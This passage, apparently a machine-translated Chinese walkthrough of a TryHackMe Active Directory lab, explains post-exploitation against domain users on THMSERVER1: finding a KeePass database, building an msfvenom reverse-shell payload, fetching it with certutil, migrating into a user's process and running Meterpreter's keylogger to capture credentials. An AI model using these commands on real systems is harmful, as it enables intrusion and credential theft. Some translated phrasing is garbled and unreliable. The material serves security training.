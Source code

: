 
到目前为止，我们的开发已经走得很远了。我们对工作站和服务器具有完全的管理访问权限。从本质上讲，我们几乎可以在任何第 1 层和第 2 层系统上执行后开发。但我们仍然想走得更远。下一个任务也可以被视为后开发，但当我们仍在执行开发以达到目标执行的合适位置时，这通常是一件好事。现在是我们瞄准AD用户的时候了。

### 用户和用户行为

未来的工厂将只有两名员工。一个人和一个狗。人类将在那里喂狗。如果狗试图触摸某些东西，它们会在那里咬人。- 沃伦·本尼斯

不幸的是，用户往往是安全链中最薄弱的环节。想想弱密码和坏习惯，例如授予过于宽松的权限。忽视这个攻击面将是无知和无效的。虽然构建针对 AD 用户的适当枚举和攻击方法很好，但在此任务中，我们将重点关注两个元素：

凭据管理 - 用户如何存储其凭据。在AD中，这非常重要，因为用户可能拥有多组凭据，并且记住所有凭据可能会很麻烦。
键盘记录 - 通常，在利用期间，我们需要了解普通用户如何与系统交互。与屏幕截图一起，键盘记录可以成为从攻击者的角度获得这种理解的有用工具。

### 寻找凭据

现在我们已经破坏了 THMSERVER1，我们可能应该环顾四周，看看是否有任何有用的信息。查看用户目录，看看其中是否有一些有用的信息。

枚举工作应将您引导至 .kdbx 文件。快速谷歌应该证实我们的怀疑，这个文件确实非常有价值！我们可以使用Meterpreter的下载命令来恢复此文件。

此文件似乎是一个凭据数据库。但是，问题是数据库是使用密码加密的。我们可以尝试破解密码，但任何使用凭据数据库的人通常都有精明的头脑来确保初始密码是安全的。我们可能会更成功地看到用户如何与此数据库交互。

### 系统有时太有特权了

Meterpreter有一个内置的键盘记录器。这对于提取用户的击键很有用。但是，我们不能只是启动这个键盘记录器并希望最好，因为我们的 shell 当前在 SYSTEM 上下文中运行。系统不会键入任何击键，因此这对我们没有帮助。要捕获正确的用户凭据，我们需要确保我们的 shell 在该用户的上下文中运行。

幸运的是，Meterpreter 为我们提供了迁移功能，并且由于我们作为 SYSTEM 运行，我们应该能够迁移到任何进程。你在 THMSERVER1 上执行了远程代码，使用它来获取 Meterpreter shell。如果您需要回顾一下如何使用Meterpreter和Metasploit，这里有一个关于其使用的模块。 但是，若要快速了解，可以使用以下命令生成 PowerShell 计量器有效负载：

    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=exploitad LPORT="Listening port" -f psh -o shell.ps1

然后，还可以使用以下命令在 msfconsole 中创建关联的侦听器：

    sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST exploitad; set LPORT "listening port'; exploit"

您可以使用Python Web服务器托管meterpreter shell，然后使用如下所示的内容进行复制：

    certutil.exe -urlcache -split -f http:///shell.ps1

一旦你有一个米壳，你就可以继续了。第一步是查看用户在此计算机上是否有任何正在运行的进程：

    ps

看来我们很幸运！用户在 THMSERVER1 上具有活动会话。让我们迁移到此用户的进程。最安全的选择通常是像探险家一样.exe：

    meterpreter\>migrate 3612

现在我们准备启动我们的键盘记录器：

    meterpreter\>keyscan_start

现在我们必须耐心等待。如果幸运的话，我们会获得一些凭据！给它几分钟，然后运行以下命令以转储捕获的击键：

    meterpreter\>keyscan_dump

---
